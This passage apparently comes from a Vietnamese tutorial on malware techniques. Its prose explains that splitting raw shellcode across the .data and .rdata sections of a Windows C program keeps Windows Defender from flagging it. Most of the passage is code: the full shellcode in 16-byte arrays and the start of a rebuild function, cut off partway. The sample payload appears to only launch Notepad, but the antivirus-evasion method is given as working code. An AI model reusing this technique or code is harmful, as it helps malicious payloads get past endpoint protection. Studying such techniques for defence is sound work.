```c
}

printf("[i] Payload address : 0x%p \n", pPayload);
printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}
```


Xem kết quả trên x64dbg:
![rsc](images/rsc.png)

Code mình sẽ up kèm theo bài đăng.

### Che giấu payload bằng cách lưu trữ đồng thời trên .data và .rdata section <a name = "hide-payload"></a>
Nếu để nguyên shellcode và thực hiện lưu trữ trong .data, .rdata thì sẽ bị Windows defender phát hiện và báo mã độc.
Vì vậy phương pháp đơn giản nhất là sẽ lưu trữ xen kẽ 16 bytes của shellcode vào 2 section này, sau đó sẽ viết hàm để
tạo ra shellcode gốc để sử dụng. Nếu không build shellcode gốc và load lên mem thì sẽ không bị phát hiện bằng phương pháp này.

```c
# include <stdio.h>
# include <Windows.h>

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
  memcpy(&sc[0], sc_0, 16);
  memcpy(&sc[16 * 1], sc_1, 16);
  memcpy(&sc[16 * 2], sc_2, 16);
  memcpy(&sc[16 * 3], sc_3, 16);
  memcpy(&sc[16 * 4], sc_4, 16);
  memcpy(&sc[16 * 5], sc_5, 16);
  memcpy(&sc[16 * 6], sc_6, 16);
```